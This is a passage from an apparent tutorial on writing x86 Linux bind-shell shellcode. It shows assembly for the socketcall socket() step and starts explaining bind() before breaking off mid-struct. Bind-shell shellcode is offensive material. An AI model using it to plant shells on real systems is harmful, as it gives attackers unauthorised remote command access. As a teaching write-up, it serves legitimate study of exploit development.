 To build this in assembly we first need to specify which call function in this case socket needs to be executed. The value for the socket call is 1 so we have to load ebx with 1. Then we need to specify the arguments for the socket function. These we push in reverse order to the stack. That means first we have to push protocol, type and then domain. Then it's possible to save a pointer to these arguments in edx which is the args parameter from the function. 
``` assembly
xor eax, eax
xor ebx, ebx
mov bl, 0x01

push eax    
push 0x01
push 0x02
mov ecx, esp
mov al, 0x66
int 0x80    

mov edi , eax
```
The last instuction saves the created socket to edi so the reference to this socket can be used later.

We can check all the values of the registers before execution with gdb:

![socket](images/socket.png)

## socketcall - bind
After creating the socket it’s required to bind the shell to an address. For this we can use the bind method which has the value 2 so we can increase ebx by 1 to have ebx loaded with 2.
``` assembly
xor eax, eax
inc bl
```
The bind function is defined with the following parameters:
``` c
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```
The first argument is the socket we created before. The second argument is the important one where we can set the port and the address for our bind shell as seen in the following:
``` c
struct sockaddr_in {
               sa_family_t    sin_family; /* address family: AF_INET */
```